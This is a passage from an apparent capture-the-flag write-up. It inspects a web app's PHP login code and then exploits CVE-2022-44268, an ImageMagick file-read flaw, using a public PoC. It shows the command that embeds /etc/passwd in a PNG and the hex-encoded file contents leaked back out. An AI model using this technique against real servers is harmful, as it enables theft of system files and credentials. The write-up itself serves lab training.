 The `login.php` file also has some interesting stuff, showing us how the login authentication works and where the database file is:

```php
$ cat login.php 
<?php
session_start();
if(isset($_SESSION['user'])) {
  header("Location: /dashboard.php");
  exit(0);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
  $username = $_POST['username'];
  $password = $_POST['password'];

  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));

  if($stmt->fetchAll()) {
    $_SESSION['user'] = $username;
    header("Location: /dashboard.php");
  }
  else {
    header("Location: /login.php?message=Login failed&status=fail");
  }
}
```

The exploit path would be to get an LFI and download the entire database to find credentials. The ExploitDB PoC brings us to this repository:

{% embed url="https://github.com/voidz0r/CVE-2022-44268" %}

I cloned it and ran this as a first test:

```
cargo run "/etc/passwd" 
```

Afterwards, we can upload the `image.png` file to the website and download it again. When we run `identify` on it, it would some hex stuff appended at the end:

```
$ identify -verbose ~/Downloads/64980052771c0.png
<TRUNCATED>
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2023-06-25T08:52:34Z
    Raw profile type: 

    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
```